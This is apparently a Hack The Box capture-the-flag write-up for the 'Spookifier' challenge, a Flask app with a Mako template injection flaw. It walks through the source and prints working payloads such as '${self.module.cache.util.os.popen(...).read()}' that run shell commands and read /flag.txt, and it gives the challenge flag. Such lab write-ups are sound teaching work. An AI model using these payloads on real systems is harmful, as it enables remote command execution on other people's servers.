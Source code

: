 ```yaml
---
title: "Spookifier"
summary: "Server-Side Template Injection vulnerability in flask application with Mako template system"
date: 2022-11-06T19:25:08+01:00
---
```


# Spookifier

> There's a new trend of an application that generates a spooky name for you. Users of that application later discovered that their real names were also magically changed, causing havoc in their life. Could you help bring down this application?

# Information Gathering

## The application at-a-glance 🔍

Appication generate "SpooOOooOOooooooOookkkkkyyyyy" names from user input.

![Untitled](images/0.png)

![Untitled](images/1.png)

## Source code review

All source code was supplied but only relevant parts will be highlighted.

```python
#main.py
from flask import Blueprint, request
from flask_mako import render_template
from application.util import spookify

web = Blueprint('web', __name__)

@web.route('/')
def index():
    text = request.args.get('text')  # Here "text" is user input
    if(text):
        converted = spookify(text) # And is passed to spookify func without any sanityzation
        return render_template('index.html',output=converted)
    
    return render_template('index.html',output='')a
```

In `main.py` file `text` parameter from URL is directly passed to `spookify` function without sanityzation. After function `spookify` return it is rendered as template. 

```python
def spookify(text):
	converted_fonts = change_font(text_list=text)

	return generate_render(converted_fonts=converted_fonts)
```

`spookify` function calls `change_font` func and passed `text` parameter still no sanitization. After `change_font` return it is rendered and returned.

```python
def change_font(text_list):
	text_list = [*text_list]
	current_font = []
	all_fonts = []
	
	add_font_to_list = lambda text,font_type : (
		[current_font.append(globals()[font_type].get(i, ' ')) for i in text], all_fonts.append(''.join(current_font)), current_font.clear()
		) and None

	add_font_to_list(text_list, 'font1')
	add_font_to_list(text_list, 'font2')
	add_font_to_list(text_list, 'font3')
	add_font_to_list(text_list, 'font4')

	return all_fonts
```

Function `change_font` still do not sanitizate data.

# The Bug

Application lack sanitization. User input is directly passed to template engine allowing to SSTI (Server Side Template Injection) attack to happend.

# Exploitation

## Execution

Payload: `${self.module.cache.util.os.popen("cat+/flag.txt").read()}`

[Python context free payloads in Mako templates](https://podalirius.net/en/articles/python-context-free-payloads-in-mako-templates/)

![Untitled](images/Untitled%202.png)

## Explanation

### Why this is even possible?

Application fully trust user to not supply any malicious input. By that do not validate input data. This allows attacker or any malicious actor to take advantage of running application.

### Payload

`${self.module.cache.util.os.popen("cat+/flag.txt").read()}`

To understand why code execute and why it looks slightly different from article mentioned earlier payload could be understand as:

- `self` this references module that legitimate code execute output of `${self}` is `<mako.runtime.TemplateNamespace object at 0x7f93963278b0>`
- `module` this is current loaded module `<module 'memory:0x7f93961eec70'>`
- `cache` is `mako` template function module `<module 'mako.cache' from '/usr/local/lib/python3.8/site-packages/mako/cache.py'>`
- `util` is another mako module and it is importig `os` module built-in python module allowing to execute shell commands
- `os` this allows to execute commands on system `<module 'os' from '/usr/local/lib/python3.8/os.py'>`

All those modules are imported like `self` importnig `module`, `module` importing cache etc. 

By this time payload looks something like `${self.module.cache.util.os}` which translate 

From module I currently execute code go to one of my imports `module` from that go to one of module imports named `cache` from `cache` go to his `util` imports, from that go to `os` import.

From that point there is possibility to use all functions from `os` built-in library.

For example `system()` so full payload looks: `${self.module.cache.util.os.system('id')}`

![Untitled](images/Untitled%203.png)

And it returned 0. Looks like root right? Not exactly.

If command is `whoami` it is still 0. Python system command return `exit code` not exactly of command output.

![Untitled](images/Untitled%204.png)

To read `stdout` of executed command `popen()` function need to be used.

With payload as: `${self.module.cache.util.os.popen('whoami')}`

We got something different `os object` 

`read()` function can be used to get output we want.

![Untitled](images/Untitled%205.png)

With payload as: `${self.module.cache.util.os.popen('whoami').read()}` 

![Untitled](images/Untitled%206.png)

In `Docker` file flag is copied to `/flag.txt`

 With paylaod as: `${self.module.cache.util.os.popen('cat+/flag.txt').read()}`

![Untitled](images/Untitled%207.png)

# Flag

`HTB{t3mpl4t3_1nj3ct10n_1s_$p00ky!!}`
